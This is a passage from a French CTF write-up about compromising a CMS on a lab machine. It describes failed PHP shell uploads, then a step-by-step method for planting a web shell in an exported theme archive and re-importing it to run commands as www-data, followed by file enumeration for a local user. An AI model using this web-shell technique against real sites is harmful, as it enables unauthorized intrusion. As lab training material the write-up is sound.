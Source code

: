 J'ai eu recours au site [bcrypt-generator.com](https://bcrypt-generator.com/) pour obtenir un hash valide (qui correspond ici à *guest*).  

I did it myyyyyy wayyyyyy
-------------------------

Il fallait alors déterminer où se trouve la page de login sur le CMS. J'ai regardé le code de [cet exploit](https://www.exploit-db.com/exploits/47376) touchant l'application, vu que */backend* était mentionné et j'ai été redirigé directement sur la page de login quand j'ai tapé sur cette URL.  

L'accès obtenu sur le CMS permet de jouer sur la configuration. Les autres personnes ayant résolu le CTF se sont dirigés vers le mécanisme de *Markup* des pages qui disposait d'un onglet *Code* que je n'ai pas remarqué.
J'ai d'abord tenté d'uploader un fichier via la section des assets :  

```plain
Error uploading file 'shell.php5': Only the following file types are allowed: jpg, jpeg, bmp, png, webp, gif, ico, css, js, woff, woff2, ttf, eot, json, md, less, sass, scss, xml
```

Ensuite via la section des contenus :  

```plain
Invalid file extension: php5. Allowed extensions are: htm, txt, md.
```

Et finalement via les médias :  

```plain
The file type used is blocked for security reasons.
```

J'ai ensuite remarqué un mécanisme d'import / export sur les thèmes du CMS. Ma technique a été la suivante :  

1. Prendre un thème existant, cliquer sur *Manage* puis *Export*, télécharger l'archive ZIP générée
2. Dézipper l'archive, ajouter le shell PHP dans le dossier *assets* (à la racine de l'archive ce n'est pas pris en compte)
3. Recréer une archive zip : *zip -r new\_theme .*
4. Dans la page des thèmes, cliquer sur *Create a new blank theme* et saisir le dossier de destination du thème
5. Sur ce nouveau thème cliquer sur *Import* avec l'option *Overwrite existing files* et uploader l'archive

Et voilà, un beau shell avec l'utilisateur www-data : *http://192.168.56.20/themes/test/assets/shell.php?cmd=id*.  

So good I did it twice
----------------------

Une fois un shell interactif récupéré il n'y a rien qui me saute aux yeux. On peut toutefois lister les fichiers de l'utilisateur *frank* sur le système :  

```plain
$ find / -user frank -ls | grep -v /proc/
   656007      4 drwxr-xr-x   7 frank    frank        4096 Nov 19  2020 /var/lib/gitea
   662525      4 drwxr-xr-x   2 frank    frank        4096 Nov 19  2020 /var/lib/gitea/custom
   665045      4 drwxr-x---   2 frank    frank        4096 Nov 19  2020 /var/lib/gitea/log
   665017      4 drwxr-x---   3 frank    frank        4096 Nov 19  2020 /var/lib/gitea/indexers
   665000      4 drwxr-x---   7 frank    frank        4096 Nov 19  2020 /var/lib/gitea/data
   665040      4 drwxr-xr-x   2 frank    frank        4096 Nov 19  2020 /var/lib/gitea/public
   656501     56 -rw-r--r--   1 frank    frank       56688 Nov 19  2020 /var/backups/app.ini.bak
   919157 104928 -rwxrwxr-x   1 frank    frank    107443064 Nov 19  2020 /usr/local/bin/gitea
   408540      4 drwxr-x---   3 frank    frank         4096 Feb  1 15:57 /opt/gitea
   410236      4 drwxr-x---   7 frank    frank         4096 Nov 19  2020 /home/frank
   535852      4 drwxr-x---   2 frank    frank         4096 Nov 19  2020 /etc/gitea
```

